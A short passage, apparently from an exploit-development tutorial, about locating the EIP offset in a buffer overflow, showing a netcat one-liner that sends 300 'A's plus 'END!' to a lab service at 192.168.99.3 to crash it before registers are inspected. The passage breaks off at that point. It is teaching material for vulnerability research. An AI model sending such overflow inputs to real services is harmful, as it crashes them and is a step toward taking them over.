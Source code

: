 ![Getting closer to identifying the EIP offset](../../../.gitbook/assets/image%20%28805%29.png)

As a final test, let's send 300 `A`'s + `END!`:

```csharp
python -c "print('A'*300 + 'END!')" | nc 192.168.99.3 10000
```

...and observe the registers after the crash:
